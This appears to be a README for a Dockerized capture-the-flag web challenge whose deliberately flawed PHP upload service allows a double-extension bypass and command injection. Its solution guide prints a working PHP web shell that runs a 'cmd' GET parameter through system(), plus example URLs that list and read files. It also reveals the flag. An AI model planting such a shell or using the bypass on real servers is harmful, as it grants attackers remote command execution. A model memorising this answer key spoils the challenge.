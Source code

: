# ImageUploader CTF Challenge

## Challenge Details

### Category
- Web Security
- File Upload Vulnerability
- Command Injection
- Base64 Encoding

### Description
ImageUploader is a seemingly innocent image upload service that contains multiple security vulnerabilities. Participants must exploit file upload restrictions and use command injection to discover and decode a hidden flag.

### Difficulty Level
- Medium

## Technical Details

### Security Flaws
1. **Insecure File Upload**
   - The application only checks file extensions
   - Double extension bypass possible (e.g., `shell.php.jpg`)
   - No proper MIME type validation

2. **Command Injection**
   - Uploaded PHP files are executed as PHP code
   - GET parameter allows arbitrary command execution

3. **Information Disclosure**
   - Directory listing enabled in uploads folder
   - Base64 encoded flag stored in predictable location

## Hosting Requirements

### Prerequisites
- Docker
- Docker Compose
- Git (optional)

### Installation & Deployment

1. **Clone the Repository**
```bash
git clone https://github.com/yourusername/ImageUploader-CTF.git
cd ImageUploader-CTF
```

2. **Build and Run with Docker**
```bash
docker-compose up --build
```

3. **Access the Challenge**
- Open browser and navigate to: `http://localhost:8080`

## Solution Guide

### Step 1: Create Payload
Create a file named `shell.php.jpg` with the following content:
```php
JFIF;
<?php
if (isset($_GET['cmd'])) {
    $cmd = $_GET['cmd'];
    echo "Command received: $cmd<br>";
    echo "Executing...<br>";
    system($cmd, $retval);
    echo "Return value: $retval<br>";
} else {
    echo "No command provided.";
}
?>
```

### Step 2: Upload and Execute
1. Upload the `shell.php.jpg` file through the web interface
2. Navigate to `/uploads/shell.php.jpg` in the browser

### Step 3: Find the Flag
1. List directories:
```
http://localhost:8080/uploads/shell.php.jpg?cmd=ls%20/var/hidden/level1/level2
```

2. Read the flag:
```
http://localhost:8080/uploads/shell.php.jpg?cmd=cat%20/var/hidden/level1/level2/secret_flag.txt
```

### Step 4: Decode the Flag
1. The output will be Base64 encoded
2. Decode using any of these methods:
   - Online Base64 decoder
   - Command line: `echo "BASE64_STRING" | base64 -d`
   - PowerShell: `[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("BASE64_STRING"))`

## Available Hints
1. "Check the MIME type bypass techniques"
2. "The flag is hidden deeper than you think"
3. "Multiple encodings might be involved"

## Project Structure
```
ImageUploader/
├── Dockerfile              # Container configuration
├── docker-compose.yml      # Docker compose configuration
├── secret_flag.txt        # Encoded flag file
└── src/
    ├── index.php          # Main web interface
    ├── upload.php         # File upload handler
    ├── hint.php           # Hint system
    ├── config.php         # Configuration settings
    ├── style.css          # CSS styling
    └── uploads/           # Upload directory
        └── .htaccess      # Apache configuration
```

## Security Measures
- Apache mod_security enabled
- Security headers configured
- File extension validation
- Upload directory permissions set
- Flag file permissions restricted
- Base64 encoded flag

## Flag Format
- Encoded: `UmVhbEZsYWd7VGgxc18xc19OMHRfVGgzX0ZsNGdfWTB1X1czbnR9`
- Decoded: `RealFlag{Th1s_1s_N0t_Th3_Fl4g_Y0u_W3nt}`

## Author
[Your Name]

## License
This project is licensed under the MIT License - see the LICENSE file for details.
